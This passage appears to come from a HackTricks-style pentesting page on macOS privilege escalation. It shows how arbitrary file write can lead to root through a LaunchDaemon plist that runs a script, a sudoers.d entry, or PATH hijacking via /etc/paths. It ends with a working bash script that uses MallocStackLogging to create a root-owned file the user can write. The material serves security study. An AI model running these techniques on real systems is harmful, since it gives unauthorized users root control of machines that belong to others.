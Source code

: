 Write an arbitrary **LaunchDaemon** like **`/Library/LaunchDaemons/xyz.hacktricks.privesc.plist`** with a plist executing an arbitrary script like:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
    <dict>
        <key>Label</key>
        <string>com.sample.Load</string>
        <key>ProgramArguments</key>
        <array>
            <string>/Applications/Scripts/privesc.sh</string>
        </array>
        <key>RunAtLoad</key>
        <true/>
    </dict>
</plist>
```

Just generate the script `/Applications/Scripts/privesc.sh` with the **commands** you would like to run as root.

### Sudoers File

If you have **arbitrary write**, you could create a file inside the folder **`/etc/sudoers.d/`** granting yourself **sudo** privileges.

### PATH files

The file **`/etc/paths`** is one of the main places that populates the PATH env variable. You must be root to overwrite it, but if a script from **privileged process** is executing some **command without the full path**, you might be able to **hijack** it modifying this file.

You can also write files in **`/etc/paths.d`** to load new folders into the `PATH` env variable.

## Generate writable files as other users

This will generate a file that belongs to root that is writable by me ([**code from here**](https://github.com/gergelykalman/brew-lpe-via-periodic/blob/main/brew\_lpe.sh)). This might also work as privesc:

```bash
DIRNAME=/usr/local/etc/periodic/daily

mkdir -p "$DIRNAME"
chmod +a "$(whoami) allow read,write,append,execute,readattr,writeattr,readextattr,writeextattr,chown,delete,writesecurity,readsecurity,list,search,add_file,add_subdirectory,delete_child,file_inherit,directory_inherit," "$DIRNAME"

MallocStackLogging=1 MallocStackLoggingDirectory=$DIRNAME MallocStackLoggingDontDeleteStackLogFile=1 top invalidparametername

FILENAME=$(ls "$DIRNAME")
echo $FILENAME
```
